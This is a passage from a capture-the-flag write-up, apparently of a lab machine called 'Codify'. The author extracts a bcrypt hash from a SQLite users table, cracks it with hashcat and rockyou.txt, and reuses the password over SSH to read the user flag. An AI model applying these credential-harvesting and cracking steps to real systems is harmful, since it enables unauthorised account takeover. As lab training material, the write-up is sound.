 ```
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```
If we look into it, we can find the hashed password from the user `joshua`:
```
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$1[...]2
```
Let's try to bruteforce it while continuing the enumeration:
```
$hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
```
Well, it tooks only a few minutes to get the password from the hash:
```
$2a$1[...]2:s[...]1
```
When I tried to use this password to log with SSH, I got the flag:
```
$ssh joshua@10.129.36.69
The authenticity of host '10.129.36.69 (10.129.36.69)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.36.69' (ED25519) to the list of known hosts.
joshua@10.129.36.69's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar 24 10:10:41 AM UTC 2024

  System load:                      0.12353515625
  Usage of /:                       66.2% of 6.50GB
  Memory usage:                     25%
  Swap usage:                       0%
  Processes:                        245
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.36.69
  IPv6 address for eth0:            dead:beef::250:56ff:fe94:cf64


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

joshua@codify:~$ cat user.txt 
```